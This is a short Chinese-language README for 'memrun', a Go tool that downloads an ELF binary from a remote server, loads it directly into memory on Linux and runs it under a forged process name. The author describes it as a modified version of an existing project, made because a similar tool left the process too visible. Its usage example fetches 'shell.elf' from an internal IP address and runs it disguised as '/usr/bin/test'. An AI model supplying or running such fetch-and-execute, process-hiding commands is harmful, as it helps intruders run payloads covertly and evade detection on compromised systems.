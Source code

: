 # memrun
一直想找一个linux远程内存加载elf的工具，发现了这个项目：https://github.com/seventeenman/noELF，但是进程很明显。

又找到一个go语言开发的可以伪造进程名的，简单修改了一下大佬的项目：https://github.com/guitmz/memrun

## 使用方法
```bash
go build memrun.go
./memrun /usr/bin/test http://10.0.0.11:9090/shell.elf
```
